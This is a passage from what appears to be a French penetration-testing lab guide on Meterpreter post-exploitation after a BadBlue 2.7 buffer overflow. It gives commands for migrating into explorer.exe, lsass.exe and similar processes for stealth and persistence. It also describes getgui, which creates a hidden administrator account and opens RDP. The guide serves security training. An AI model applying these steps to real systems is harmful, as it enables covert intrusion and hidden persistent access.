 **🔥 Note :** BadBlue 2.7 est vulnérable à un buffer overflow via la fonction PassThru.

---

## 🔄 3. Migration de processus (Stabilisation)

### Pourquoi migrer ?
- **Stabilité** : Process plus stable qu'un service web
- **Persistance** : explorer.exe redémarre automatiquement
- **Discrétion** : Processus légitime moins suspect
- **Privilèges** : Maintien des privilèges administrateur

### Migration vers explorer.exe
```bash
# 1. Identifier PID d'explorer.exe
ps -S explorer.exe
ps aux | grep explorer

# 2. Migrer vers explorer.exe
migrate 2764                           # Remplacer par PID trouvé

# 3. Vérifier migration réussie
getpid
ps -p                                  # Voir processus actuel
```

### Alternatives de migration
```bash
# Autres processus stables pour migration
ps -S winlogon.exe                     # Processus de connexion
ps -S lsass.exe                        # Local Security Authority
ps -S services.exe                     # Service Control Manager
ps -S svchost.exe                      # Host service processes

# Migration alternative
migrate <pid_process_stable>
```

---

## 👤 4. Commande getgui (Meterpreter)

### Fonctionnalités de getgui
La commande `getgui` effectue automatiquement :
- ✅ **Activation RDP** si désactivé
- ✅ **Création utilisateur** avec mot de passe
- ✅ **Masquage utilisateur** de l'écran de login
- ✅ **Ajout aux groupes** Administrators et Remote Desktop Users
- ✅ **Configuration firewall** pour RDP
